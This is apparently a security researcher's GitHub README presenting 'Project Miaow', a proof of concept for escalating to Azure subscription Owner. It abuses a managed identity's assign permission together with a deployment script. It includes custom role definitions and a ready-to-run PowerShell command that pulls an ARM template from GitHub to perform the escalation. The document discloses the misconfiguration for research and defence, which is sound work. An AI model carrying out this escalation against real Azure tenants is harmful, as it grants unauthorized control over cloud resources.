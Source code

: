# Project Miaow (Managed Identity Adds Owner)

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/256fe70f-02cc-469f-b264-bf942f156a47)


Mr. KFC Harland Sanders has `read` and `assign` permissions on the User-Assigned Managed Identity

### Custom Role User-Assigned Managed Identity User (custom role)  

> This role only gives permissions to `read` and `assign` a user-assigned managed identity to follow the least privilege
> 
```json
{
    "id": "/subscriptions/7570c6f7-9ca9-409b-aeaf-cb0f5ac1ad50/providers/Microsoft.Authorization/roleDefinitions/44e27d73-8dd7-4428-8bda-78406afb75c1",
    "properties": {
        "roleName": "Managed Identity Consumer",
        "description": "",
        "assignableScopes": [
            "/subscriptions/7570c6f7-9ca9-409b-aeaf-cb0f5ac1ad50"
        ],
        "permissions": [
            {
                "actions": [
                    "Microsoft.ManagedIdentity/userAssignedIdentities/*/read",
                    "Microsoft.ManagedIdentity/userAssignedIdentities/*/assign/action"
                ],
                "notActions": [],
                "dataActions": [],
                "notDataActions": []
            }
        ]
    }
}
```

The User Assigned Managed Identity `super-owner` has permission `User Access Administrator` on a specified scope, in this case the subscription level.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/103fe92a-09c9-493b-9865-04fb3df40a94)


Mr. Harland has `Deployment Administrator` permissions on a resource group, and no further permissions within the subscription.

### Custom Role: Deployment Administrator (permissions to create deployment script)  

> This role has less permissions than a `contributor` to follow the least privilege principle.
> 
```json
{
  "roleName": "Deployment Administrator",
  "description": "Configure least privilege for the deployment principal in deployment script",
  "type": "customRole",
  "IsCustom": true,
  "permissions": [
    {
      "actions": [
        "Microsoft.Storage/storageAccounts/*",
        "Microsoft.ContainerInstance/containerGroups/*",
        "Microsoft.Resources/deployments/*",
        "Microsoft.Resources/deploymentScripts/*"
      ],
    }
  ],
  "assignableScopes": [
    "[subscription().id]"
  ]
}
```

Harland has no access to the Resource group where the user assigned managed identity resides nor any other resources groups and resources in Azure.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/68a01789-dace-4a1a-9808-49c10d8f9bbe)

Interesting note: when requesting the permissions of Mr. Harland via PowerShell, only the `Resource Group` permissions are shown.
The custom role assignment to the `user-assigned` are *not* displayed.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/016957aa-92db-4b5d-a881-3c372ecb9ed4)

>
>   

## Proof Of Concept

1. Mr. Harland logs in to Azure PowerShell to deploy the template.

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/c977cd5b-e21a-4e43-9d82-40b14a385fce)

2. Deploys an ARM template to the designated resource group that contains a deployment script

```PowerShell
New-AzResourceGroupDeployment `
  -name miaow `
  -ResourceGroupName kentucky-fried-veggies `
  -TemplateObject ((Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/SecureHats/azure-misfit/azurekid/priv-esc/poc/priv-esc-arm-template/azuredeploy.json').Content | ConvertFrom-Json -AsHashtable) `
  -managedIdentityName 'super-owner' `
  -managedIdentityResourceGroup "azure-misfit" `
  -principalId "301dfac7-8f45-48ac-9868-e1f0e875385c"
```

> NOTE: I am invoking the ARM template from GitHub so the repository does not need to be cloned to execute the deployment.

### Provided parameters
```yaml
name:                         The display name of the deployment to the Azure Resource Group
ResourceGroupName:            The name of the resource group which the user has access to
TemplateObject:               The ARM template to deploy to the target resource group.
managedIdentityName:          The name of the managed identity with role assignment permissions on a scope
managedIdentityResourceGroup: The resource group where the managed identity resides
principalId:                  The objectId of the user that is granted permissions via the deployment script
```

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/2e2ec2e8-e3a2-4cef-b474-9734a7f481c9)

During the deployment in the target resource group, a storage account, container instance and deploymentScript resource is created.  

The script in the DeploymentScript is executed in the context of the use assigned managed identity.  
After completion the DeploymentScript will show `Miaow`

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/403a0076-d2ab-4540-9715-f5c022f641c8)

# We are now `OWNER` of the subscription

![image](https://github.com/SecureHats/azure-misfit/assets/40334679/e70829d3-afd9-4e7e-9cb0-ea68185576be)




